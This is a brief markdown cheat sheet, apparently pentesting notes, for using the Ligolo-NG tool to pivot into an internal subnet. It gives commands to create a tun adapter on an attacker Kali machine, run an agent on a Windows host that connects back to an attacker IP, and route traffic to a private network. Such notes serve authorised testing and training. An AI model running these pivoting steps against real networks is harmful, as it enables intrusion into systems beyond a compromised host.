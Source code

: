 #Ligolo-NG  </br >
https://github.com/nicocha30/ligolo-ng
https://www.youtube.com/watch?v=DM1B8S80EvQ&t=1s  </br >
https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/ </br >
https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5 </br >
#Commands
Create ligolo network adapter</br >
```
sudo ip tuntap add user kali mode tun ligolo
````

Up And Running the Network adapter ligolo </br >

```
sudo ip link set dev ligolo up
```

Start Ligolo from kali Linux (Attacker System) </br >
```
>./Lproxy -selfcert (Mention Port below)
```
Connecting to attackers machine </br >
```
WIN_PS>.\Lagent -connect 192.168.45.204:11601 -ignore-cert
```
In Kali Linux, You can see the Session connected, Check for interfaces </br >
```
Ligilo>ifconfig (Network interfaces)
```
Add network Adaper based Above command (Run this if you for got run above "sudo ip link set dev ligolo up") </br >
```
sudo ip route add 172.16.201.0/24 dev ligolo
```
After Adding the route in Windows, Run below command in ligolo terminal in Kali linux
```
Ligilo>start
```
You should able to reach before executing next command
```
>ping 172.16.201.11 
```

Credits:  [Nicolas Chatelain](https://github.com/nicocha30)
